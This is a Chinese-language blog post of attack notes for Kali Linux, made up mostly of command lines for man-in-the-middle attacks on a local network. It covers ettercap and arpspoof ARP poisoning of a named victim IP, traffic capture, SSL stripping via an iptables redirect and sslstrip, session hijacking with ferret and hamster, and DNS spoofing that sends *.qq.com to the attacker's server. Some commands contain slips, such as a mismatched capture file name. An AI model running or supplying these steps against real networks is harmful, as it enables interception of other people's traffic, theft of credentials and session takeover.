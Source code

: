 ```yaml
---
title: 嗅探，arp欺骗，会话劫持
date: 2016-12-10 20:07:12
tags: 
    - Kali
    - 网络安全
---
```


<h3>嗅探，arp欺骗，会话劫持</h3>
工具：`Kali Linux` [`ettercap`](http://www.91ri.org/4408.html)
第一次需要配置
```
   /etc/ettercap/etter.conf
   ec_uid = 0
   ec_gid = 0
   [linux]
   if you use iptables 这行，将下面#去掉，打开转发。
```
```
   
   /etc/NetworkManager/NetworkManager.conf 
   [ifupdown]
   managed=true
```

改完后重启NetworkManager

```
   service network-manager restart
```

```
    cat /proc/sys/net/ipv4/ip_forward
    echo 1>>/proc/sys/net/ipv4/ip_forward
```

ettercap 
```
    ettercap -T -M arp /// /// -q -i eth0
```
第一个 `///` 是嗅探目标 --IP地址 <br>
第二个 `///` 是嗅探网络 --网关地址
`eth0` 是网卡编号

driftnet 显示访问图片
```
    driftnet -i eth0
```

arpspoof  (同样需要开启路由转发)
```
    arpspoof -i eth0 -t 被攻击者ip 攻击者ip
```

<h4>数据包捕获</h4>
tcpdump wireshark(图形界面) <br>
```
    tcpdump -i eth0 -w text.txt
```
drafnet

<h4>SSL数据嗅探</h4>
```
iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port 10000
sslstrip -p -l 10000 -w log.txt
之后开启ARP欺骗工具
用完记得取消 -A -> -D
```

<h4>session劫持-arp欺骗</h4>
```
    arpspoof -i eth0 -t 192.168.14.2 192.168.14.132
    tcpdump -i eth0 -w text.cap
    ferret -r text.cpp
    hamster
    设置代理
    http://hamster
```

<h4>session劫持-DNS欺骗</h4>
```
    使用ettercap进行arp欺骗
    vi /etc/ettercap/etter.dns
    *.qq.com A 183.175.12.144
    //修改dns到自己的服务器
    dns_spoof
```